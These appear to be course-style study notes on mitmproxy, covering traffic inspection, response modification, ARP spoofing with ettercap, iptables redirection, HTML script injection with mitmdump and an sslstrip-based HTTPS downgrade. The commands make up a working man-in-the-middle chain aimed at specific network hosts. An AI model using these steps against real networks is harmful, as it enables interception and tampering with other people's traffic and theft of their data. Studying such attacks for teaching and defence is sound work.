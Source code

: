 - Used to analyze, modify, and replay packet flows  
- it is a more low level program  
  
# How to install  
- cd /opt  
- [https://github.com/mitmproxy/mitmproxy/releases](https://github.com/mitmproxy/mitmproxy/releases)  
- extract to a new folder named mitmproxy  
	- 3 files will show up  
	- mitmdump - command line version of the program  
	- mitmproxy - main interactive command tool  
	- mitmweb - web interface that allows you to monitor traffic  
  
# to see the traffic flow when a user connects to a website  
- cd /opt/mitmproxy  
- ./mitmweb  
- navigate to web url  
- set firefox proxy to 127.0.0.1:8080  
- The main search box can be used to filter packets  
	- ie. -a .js >> this will only show you javascript files  
	- ie -m POST >> this will only show you post requests  
- The highlight option will only highlight what we want and not filter it  
    
# How to edit and modify packets  
- cd /opt/mitmproxy  
- ./mitmweb  
- navigate to web url  
- set firefox proxy to 127.0.0.1:8080  
- The intercept option is used to tell mitmproxy to only intercept those packets  
	- This means that request is held by us and not allowed to flow through  
- you can then use the ui to modify the response and play it  
	- the video added a alert(1) to the bing.com response  
  
# Another example but this time using ettercap and mitmproxy  
- ettercap -Tq -M arp:remote -i wlan0 -S /10.20.215.1// /10.20.215.9//  
	- This command will make us the attacker the mitm  
- iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080  
	- This command tells out computer to redirect port 80 to port 8080 where we are running mitmproxy  
- cd /opt/mitmproxy  
- ./mitmweb --transparent  
- When you are done  
	- quit mitmweb  
	- iptables -t nat --flush  
  
# To automate the steps tested using mitmweb  
- Run ettercap  
- update iptables  
- ./mitmdump --transparent --modify-body :~s:"</body>":"<script>alert(1)</script></body>"  
	- :filter:text to replace:txt that will be injected  
- When you are done  
	- quit mitmweb  
	- iptables -t nat -- flush  
  
  # How to use Python to interact with mitmproxy  
- pip install mitmproxy  
	- import mitmproxy  
- write your python script  
- ./mitmdump -s /root/test.py --transparent

# https
The biggest issue with the techniques we learned about mitmproxy is that they will only work with http websites. They will not work with https websites **  
- https data is encrypted usinf ssl  
- data can not be read or modified  
- sslstrip cannot be used since mitmproxy cannot work with another transparent proxy  
	- sslstrip is used to downgrade a webpage from https to http  
  
  
## What is the solution?  
- use a mitmproxy script to bypass https  
- there is a script named sslstrip.py that will downgrade a website from https to http  
  
## How do we perform the attack on https sites?  
- ettercap -Tq -M arp:remote -i wlan0 -S /10.20.215.1// /10.20.215.9//  
- ./mitmdump -s /root/sslstrip.py -s /root/test.py --mode transparent  
	- note you can run multiple scripts at the same time  
- iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080  
- When you are done  
	- quit ettercap  
	- quit mitmdump  
	- iptables -t nat -- flush

